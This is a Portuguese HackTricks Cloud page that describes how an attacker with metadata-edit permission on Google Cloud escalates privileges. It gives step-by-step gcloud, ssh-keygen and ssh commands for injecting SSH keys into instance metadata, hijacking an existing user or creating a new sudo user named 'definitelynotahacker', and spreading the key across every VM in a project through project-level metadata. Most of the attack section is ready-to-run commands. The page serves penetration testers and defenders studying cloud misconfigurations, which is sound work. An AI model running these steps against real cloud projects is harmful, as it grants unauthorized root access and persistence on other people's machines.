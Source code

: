 # GCP - Adicionar Metadados SSH Personalizados

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos significativos de segurança se um invasor obtiver as permissões necessárias**.

### **Incorporação de Chaves SSH nos Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Ambiente de Convidado Linux Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um invasor puder modificar os metadados personalizados, ele poderá fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada no sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o invasor poderá comprometer o host.

### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examinar Chaves SSH Existente na Instância:**
- Execute o comando para descrever a instância e seus metadados para localizar as chaves SSH existentes. A seção relevante na saída estará em `metadata`, especificamente na chave `ssh-keys`.
```bash
gcloud compute instances describe [INSTÂNCIA] --zone [ZONA]
```
- Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separados por dois pontos.

2. **Preparar um Arquivo de Texto para Metadados de Chave SSH:**
- Salve os detalhes dos nomes de usuários e suas chaves SSH correspondentes em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes ao adicionar novas.

3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
- Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.

4. **Atualizar os Metadados de Chave SSH da Instância:**
- Aplique os metadados de chave SSH atualizados à instância usando o comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTÂNCIA] --metadata-from-file ssh-keys=meta.txt
```

5. **Acessar a Instância Usando a Nova Chave SSH:**
- Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chaves SSH ao nível do projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o alcance do acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem aplicando **chaves SSH ao nível do projeto**. Esta abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em todo o projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH ao Nível do Projeto:**
- Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH de `meta.txt` aos metadados do projeto. Esta ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em todo o projeto" habilitada.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acessar as Instâncias Usando Chaves em Todo o Projeto:**
- Com as chaves SSH em todo o projeto configuradas, você pode acessar as instâncias dentro do projeto via SSH. As instâncias que não bloqueiam as chaves em todo o projeto aceitarão a chave SSH, concedendo acesso.
- Um método direto para acessar uma instância é usando o comando `gcloud compute ssh [INSTÂNCIA]`. Este comando utiliza seu nome de usuário atual e as chaves SSH definidas ao nível do projeto para tentar o acesso.


# Referências
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
